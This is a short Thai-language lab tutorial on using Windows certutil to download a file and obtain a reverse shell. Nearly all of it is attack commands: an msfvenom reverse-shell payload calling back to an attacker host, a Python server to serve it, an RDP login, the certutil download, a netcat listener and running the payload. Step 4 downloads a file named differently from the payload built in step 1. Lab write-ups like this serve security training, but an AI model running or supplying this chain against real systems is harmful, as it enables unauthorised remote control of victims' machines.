 # Windows Download shell via certutil tools 

บน Windows เราสามารถใช้คำสั่ง certutil เพื่อดาวโหลดไฟล์ได้ ซึ่งจะคล้ายกับการใช้งาน Wget บน Linux นั่นเอง 

```powershell
certutil.exe -urlcache -f http://10.10.10.2/downloadfile.exe
# OR
certutil.exe -urlcache -f -split http://10.10.10.2/downloadfile.exe
```
จากตัวอย่างด้านบนเราสามารถทดสอบการโจมตีบน Windows ได้ดังต่อไปนี้
กำหนดให้ Windows มีหมายเลข IP เป็น 10.10.10.1 และ Kali Linux เป็น 10.10.10.2 

Step 1: สร้าง Payload ในรูปแบบไฟล์ .exe ด้วย msfvenom

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.2 LPORT=4444 -f exe > shell.exe
```

Step 2: เปิดให้ Download file ด้วยคำสั่ง Python
```python
python -m http.server 80
```

Step 3: Remote ไปยัง Windows ด้วยคำสั่ง xfreerdp
```sh 
xfreerdp /u:user /p:pass /cert:ignore /v:10.10.10.1
```

Step 4: ทำการ Dwonload ไฟล์ shell.exe บน Windows 
```powershell
certutil.exe -urlcache -f http://10.10.10.2/downloadfile.exe
# OR
certutil.exe -urlcache -f -split http://10.10.10.2/downloadfile.exe
```

Step 5: เปิด Connection ด้วย Netcat บน Kali เพื่อรอ Reverse shell 
```sh 
nc -lvnp 4444 
```

Step 6: Run shell.exe บน Windows 
```powershell
./shell.exe
```

Have FUN for LAB
